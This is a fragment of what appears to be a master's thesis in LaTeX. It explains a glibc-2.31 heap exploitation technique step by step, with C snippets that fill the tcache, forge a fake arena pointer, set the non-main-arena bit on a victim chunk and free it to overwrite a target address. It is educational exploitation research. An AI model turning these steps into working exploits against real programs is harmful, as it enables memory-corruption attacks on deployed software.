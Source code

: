 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\fb{fast bins}
\begin{document}
The next step as we told, The location of fake arena is located at an offset of the heap so we have to allocate fake chunks until reach the fake new arena:
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* user_mem = malloc(MAX_SIZE);
while((long long)user_mem < new_arena_value){
	 /* ... */
	user_mem = malloc(MAX_SIZE);
}
\end{lstlisting}

As we told, this approach use the \fb{} approach , so, we need a chunk in range of the \fb{} chunk , also, a pointer to chunk:

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* fastbin_chunk = malloc(0x50)
uint64_t* chunk_ptr = fastbin_chunk - 2
\end{lstlisting}
This file work on \libc{-2.31} which support \tch{} as the first mechanism, so, like \lstinline{fastbin_dup}, all we need is to fill up the \tch{} to force the heap manager role back to the \fb{}

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* tcache_chunks[7];
for(int i = 0; i < 7; i++){
	tcache_chunks[i] = malloc(0x50);
}
for(int i = 0; i < 7; i++){
	free(tcache_chunks[i]);
}
\end{lstlisting}

The next step is setting up \lstinline{ar_ptr} of heap structure in the fake heap. This field is the first one in the structure at offset 0x00.

\begin{lstlisting}[language=c,frame=tlrb]
fake_heap_info[0] = (uint64_t) fake_arena
\end{lstlisting}

Now we have to set \lstinline{non_main_arena} bit in the size field of our victim chunk:

\begin{lstlisting}[language=c,frame=tlrb]
chunk_ptr[1] = 0x60 | 0x4;
\end{lstlisting}

Everything is set up now, all we need is call free function for the victim chunk:

\begin{lstlisting}[language=c,frame=tlrb]
free(fastbin_chunk);
\end{lstlisting}

\begin{figure}[h!]
\caption{the address of our fake arena overwritten on target location}
\label{fig:fakearens}
\end{figure}
\end{document}
